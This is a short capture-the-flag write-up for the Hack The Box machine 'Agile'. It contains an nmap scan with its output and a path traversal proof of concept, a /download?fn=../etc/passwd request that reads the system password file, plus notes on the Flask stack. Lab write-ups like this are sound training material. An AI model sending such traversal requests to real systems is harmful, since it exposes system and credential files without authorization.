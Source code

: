 # [Agile](https://app.hackthebox.com/machines/532)

## Overview

- Linux machine
- Medium

## ip

target: 10.129.74.18

attacker: 10.10.14.5

## Scan

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -Pn -v 10.129.74.18 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f4bcee21d71f1aa26572212d5ba6f700 (ECDSA)
|_  256 65c1480d88cbb975a02ca5e6377e5106 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://superpass.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## path traversal

endpoint: `/download`

poc:

```http
GET /download?fn=../etc/passwd HTTP/1.1

HTTP/1.1 200 OK

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

error message when set fn to not exist file name:

```http
GET /download?fn=../asdf HTTP/1.1

HTTP/1.1 500 INTERNAL SERVER ERROR
Server: nginx/1.18.0 (Ubuntu)

...
```

- python 3.10
- flask
- source: [source](./leak_superpass/)
